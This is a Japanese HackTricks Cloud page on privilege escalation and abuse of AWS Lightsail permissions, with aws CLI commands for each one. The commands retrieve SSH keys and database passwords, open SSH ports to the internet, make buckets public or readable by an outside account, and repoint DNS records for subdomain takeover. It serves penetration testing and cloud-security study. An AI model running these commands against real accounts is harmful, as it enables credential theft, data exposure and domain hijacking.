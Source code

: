 # AWS - Lightsail 特権昇格

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して**ハッキングトリックを共有**してください。

</details>
{% endhint %}

## Lightsail

Lightsailに関する詳細情報は次を確認してください:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Lightsailは**ユーザーに属するIAMロールを使用しない**ことに注意することが重要ですが、AWSが管理するアカウントに属するため、このサービスを悪用して特権昇格することはできません。ただし、このサービスにはコード、APIキー、データベース情報などの**機密データ**が含まれている可能性があります。
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

この権限を持つと、インスタンスにアクセスするためのSSHキーを取得できます。
```
aws lightsail download-default-key-pair
```
**潜在的影響:** インスタンス内の機密情報を見つける。

### `lightsail:GetInstanceAccessDetails`

この権限を持つと、インスタンスにアクセスするためのSSHキーを生成できます。
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**潜在的影響:** インスタンス内の機密情報を見つける。

### `lightsail:CreateBucketAccessKey`

この権限を持つと、バケットにアクセスするためのキーを取得できます。
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**潜在的影響:** バケット内の機密情報を見つける。

### `lightsail:GetRelationalDatabaseMasterUserPassword`

この権限を持つと、データベースへのアクセス資格情報を取得できます。
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**潜在的影響:** データベース内の機密情報を見つける。

### `lightsail:UpdateRelationalDatabase`

この権限を持つと、データベースへのアクセスパスワードを変更できます:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

データベースが公開されていない場合は、この権限で公開することもできます。

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**潜在的影響:** データベース内で機密情報を見つけることができます。

### `lightsail:OpenInstancePublicPorts`

この権限は、ポートをインターネットに公開することを許可します。
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**潜在的影響:** 機密ポートへのアクセス。

### `lightsail:PutInstancePublicPorts`

この権限は、インターネットへのポートを開くことを許可します。指定されていないポートは閉じられます。
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**潜在的影響:** 機密ポートへのアクセス。

### `lightsail:SetResourceAccessForBucket`

この権限を使用すると、追加の資格情報なしにインスタンスにバケットへのアクセスを許可できます。

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**潜在的影響:** 機密情報が含まれるバケットへの新しいアクセス権の潜在的な取得。

### `lightsail:UpdateBucket`

この権限を持つ攻撃者は、自分のAWSアカウントに対してバケットへの読み取りアクセス権を付与したり、バケットを誰でもアクセス可能な状態にすることができます。
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**潜在的影響:** 機密情報が含まれるバケットへの新しいアクセス権の可能性。

### `lightsail:UpdateContainerService`

この権限を持つ攻撃者は、コンテナサービスからプライベートECRへのアクセス権を付与できます。
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**潜在的影響:** プライベートECRから機密情報を取得する

### `lightsail:CreateDomainEntry`

この権限を持つ攻撃者は、サブドメインを作成し、それを自分のIPアドレスに向ける（サブドメイン乗っ取り）、またはドメインからの電子メールのスプーフィングを許可するSPFレコードを作成したり、さらにはメインドメインを自分のIPアドレスに設定することができます。
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在的影響:** ドメインの乗っ取り

### `lightsail:UpdateDomainEntry`

この権限を持つ攻撃者は、サブドメインを作成し、それを自分のIPアドレスに向ける（サブドメイン乗っ取り）、または彼にメールドメインからのメールをスプーフィングするSPFレコードを作成することができ、さらにはメインドメインを自分のIPアドレスに設定することができます。
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**潜在的影響:** ドメインの乗っ取り

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
{% endhint %}
